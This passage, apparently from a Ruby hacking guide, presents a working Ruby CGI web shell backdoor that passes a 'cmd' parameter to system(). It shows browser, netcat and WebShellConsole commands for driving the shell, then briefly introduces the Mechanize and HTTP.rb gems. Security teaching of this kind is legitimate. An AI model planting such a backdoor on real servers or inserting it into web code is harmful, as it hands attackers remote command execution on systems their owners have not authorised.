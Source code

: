 ### Web Shell[^1] - command execution via GET

if you have a server that supports ruby CGI, you can use the following as backdoor
```ruby
#!/usr/bin/env ruby
require 'cgi'
cgi = CGI.new
puts cgi.header
system(cgi['cmd'])
```
Now you can simply use a web browser, Netcat or WebShellConsole[^1] to execute your commands.
ex.
**Browser**
```
http://host/cgi/shell.rb?cmd=ls -la
```
**Netcat**
```
echo "GET /cgi/shell.rb?cmd=ls%20-la" | nc host 80
```
**WebShellConsole**

run wsc
```
ruby wsc.rb
```
Add Shell URL
```
Shell -> set http://host/cgi/shell.rb?cmd=
```
Now prompt your commands
```
Shell -> ls -la
```

## Mechanize
Since we're talking about dealing with web in ruby, we can't forget **Mechanize** gem, the most known library for dealing wit web.

**The Official description says**, the Mechanize library is used for automating interaction with websites. Mechanize automatically stores and sends cookies, follows redirects, and can follow links and submit forms. Form fields can be populated and submitted. Mechanize also keeps track of the sites that you have visited as a history.

More about Mechanize gem
- [Getting Started With Mechanize][3]
- [Mechanize examples][4]
- [RailsCasts | Mechanize tutorial][5]

Since you know the hard way, you'll find Mechanize as simple as mouse clicks! give it a try!


## HTTP.rb
HTTP (The Gem! a.k.a. http.rb) is an easy-to-use client library for making requests from Ruby. It uses a simple method chaining system for building requests, similar to Python's Requests.


[^1]: [WebShellConsole](https://github.com/KINGSABRI/WebShellConsole) is simple interactive console, interacts with simple web shells using HTTP GET rather than using browser. wsc will work with any shell use GET method. It takes care of all URL encoding too.
[3]: http://docs.seattlerb.org/mechanize/GUIDE_rdoc.html
[4]: http://docs.seattlerb.org/mechanize/EXAMPLES_rdoc.html
[5]: http://railscasts.com/episodes/191-mechanize
[6]: https://github.com/httprb/http
[7]: https://github.com/httprb/http/wiki